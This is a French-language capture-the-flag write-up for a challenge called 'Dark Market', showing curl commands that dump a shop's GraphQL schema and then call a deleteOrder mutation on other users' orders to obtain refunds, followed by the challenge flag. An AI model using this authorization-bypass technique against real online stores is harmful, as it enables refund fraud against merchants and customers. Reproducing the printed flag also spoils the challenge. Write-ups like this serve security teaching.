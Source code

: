 #Dark Market

Nous voilà face à une boutique en ligne.

D'après l'énnoncé, le but est d'acheter le flare gun.

Après avoir naviguer sur le site, on se rends compte que des requêtes graphQL sont effectuées.

On peut dumper le schéma complet grâce à cette requête : 

```
curl --Cookie "session=SESSIONCOOKIE"  http://defense.alieni.se:3002/graphql -X POST --data 'query={__schema {queryType { name }mutationType { name }subscriptionType { name }types {...FullType}directives {name 
description args {...InputValue}onOperation onFragment onField}}}fragment FullType on __Type {kind name 
description fields(includeDeprecated: true) {name description args {...InputValue}type {...TypeRef}isDeprecated 
deprecationReason}inputFields {...InputValue}interfaces {...TypeRef}enumValues(includeDeprecated: true) {name 
description isDeprecated deprecationReason}possibleTypes {...TypeRef}}fragment InputValue on __InputValue {name 
description type { ...TypeRef }defaultValue}fragment TypeRef on __Type {kind name ofType {kind name ofType {kind 
name ofType {kind name}}}}'

```

Les choses à retenir sont : 

Les deux méthodes findOrder et findProduct, ainsi que la mutation deleteOrder.

deleteOrder prends 2 arguments : un orderID ainsi qu'un userID

```
.....
"name":"MyMutations",   "description":null,  "fields":[    {                     
"name":"deleteOrder",   "description":null,   "args":[{
  "name":"orderId","description":null, "type":{"kind":"SCALAR","name":"String", "ofType":null},"defaultValue":null }, {                           
"name":"userId", "description":null,             
.....
```

Pour supprimer une commande, il faut dans un premier temps récuperer l'ID d'un user :

```
root@maze:~# curl --Cookie 
"session=SESSIONCOOKIE" 
http://defense.alieni.se:3002/graphql -X POST --data 
'query={findOrder(orderId:"5ee1e75f-e9e5-4119-b42e-5a20cb0a389e") {id user{name id}}}'


{"data":{"findOrder":{"id":"T3JkZXJzOjY0MA==","user":{"name":"fuu","id":"VXNlcnM6MTIzNg=="}}}}


```

On base64 decode l'id : 

```
root@maze:~# echo -n "VXNlcnM6MTIzNg==" | base64 -d
Users:1236

```

Puis on supprimer la commande : 

```
root@maze:~# curl --Cookie
"session=SESSIONCOOKIE"
 http://defense.alieni.se:3002/graphql -X POST --data 'query=mutation { deleteOrder(orderId: 
"5ee1e75f-e9e5-4119-b42e-5a20cb0a389e", userId: 1236){success} } '

{"data":{"success":true}}


```

La commande est supprimer, et nous avons été remboursé !

On va maintenant essayer de supprimer une commande mais faite par un autre.

Cela fonctionne ! On peut donc dépasser 100$ et acheter le flare gun, une fois fait, le flag est affiché.

SECT{__er0t1cally...4s 1f IT wer3__}



